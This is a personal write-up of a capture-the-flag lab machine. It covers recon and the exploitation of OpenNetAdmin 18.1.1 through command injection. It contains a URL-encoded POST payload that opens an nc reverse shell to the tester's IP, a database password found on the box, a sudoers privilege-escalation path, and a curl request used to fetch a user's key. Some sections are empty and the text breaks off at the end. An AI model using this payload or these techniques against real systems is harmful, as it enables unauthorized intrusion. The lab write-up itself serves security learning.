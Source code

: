 # Machine #[NUMBER] [NAME]  


## Nmap Results  
  <img src="https://nmap.org/images/nmap-logo-256x256.png">   

* Just a web service and ssh.



<br/><br/>

## Banner Grabbing of Services  
 * Didn't find much


<br/><br/>

## Searchsploit
  <img src="https://www.offensive-security.com/wp-content/uploads/2020/05/SearchSploit-1.png" width=400 height=200>   



<br/><br/>  

## Gobustering Stuff  

  <img src="https://cdn.akamai.steamstatic.com/steam/apps/1092880/capsule_616x353.jpg?t=1605640630" width=400 height=200>  

* In this path `http://10.129.170.143/artwork/` found a website.
* I will try and gobuster the previous path see what I get.

<br/><br/>


## Thinking Out Loud   

  <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQr4hzX6KoRN5PjPJjy8QC43K0T-CoXZHawDIxG4jCa9aMD1K8Vl3vhpG2a2OVbiy-i93c&usqp=CAU" width=200 height=200>  

* The root opens the default page for Apache.  
* In the website I found "Arcwork" I found a form that when the button is pressed in it it sends a post request but without the input which I think means it's as useful as a bag of chips to break the website.  
* The form in `/sierra` sends parameters in the post which means it might be exploitable in a way MAYBE. In this path `/sierra/contact_process.php` the post takes place.  
* Emails I found  
  * contact@sierracompany.com (In the sierra website).
  * hello@mydomain.com (Arcwork website).  
* In the last website `/music` I found something interesting when I pressed "login" it opened this url `http://10.129.170.143/ona/` which opened something weird called openNetAdmin which seems like it's obviously key to solving the machine.
* Found a dns domain. I'm gonna try and put it in hosts.
* OpenNetAdmin version ==> OpenNetAdmin - v18.1.1.
* I was able to login as "admin/admin" in the opennetadmin.
* It seems that the exploit I found for this version of openNetAdmin takes advantage of the "IP Calculator".  

xajax=window_submit&xajaxr=1643382750871&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204444%20%3E%2Ftmp%2Ff&xajaxargs[]=ping%22%20%22http%3A%2F%2F10.129.170.143%2Fona%2F  

* Found a credential for the database 
```console
 'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!', // turns out this is jimmy's password
        'db_database' => 'ona_default',
        'db_debug' => false,
```

* Found another password for jimmy `Revealed` it was hashed with sha 512 and I was able to crack it easily anyway what do I need it for?  

* `/etc/sudoers.d/joanna:joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv`  


```
lrwxrwxrwx 1 root root 32 Nov 22  2019 /etc/apache2/sites-enabled/internal.conf -> ../sites-available/internal.conf                                                 
    ServerName internal.openadmin.htb
lrwxrwxrwx 1 root root 33 Nov 22  2019 /etc/apache2/sites-enabled/openadmin.conf -> ../sites-available/openadmin.conf                                               
        ServerName openadmin.htb
```  

* I was able to get joanna's key by executing this 
```console
curl -X POST -F 'username=jimmy' -F 'password=Revealed' -F 'login=' http://localhost:52846/main.php
```
But I'm not able to use the passphrase yettt which is frustrating and a reverse shell is not working.

<br/><br/>



## How Did I Solve the Machine 

   <img src="https://images.lifesizecustomcutouts.com/image/cache/catalog/febProds21/SP000081-500x500.png" width=200 height=200>   


     

## Where I Got Stuck?  

   

## What Did I learn from this Machine?  

* OpenNetAdmin  
  <blockquote>
  OpenNetAdmin is a Network Management application that provides a database of managed inventory of IPs, subnets, and hosts in a network with a centralized AJAX web interface. The application is an Opensource written in PHP; you can view the source code on GitHub “ONA Project.”
  </blockquote>



## Writeups   

### ippsec  

* He checked the source of the page to check what is the type of the content management system that is being used.  
* Carousel is a popular wordpress plugin.  
* He made an HTML page with `python -m http.server 80` to run the exploit that is expecting us to "make an html page".  
* Don't jump straight into a dangerous command with command injection, try a simple, useless one first.  
* We can test for a firewall if we `nc [MY IP] [PORT]` we can check if a firewall is blocking us.   

### 0xdf's Writeup  

* He used a webshell and then

<!-- tagsss -->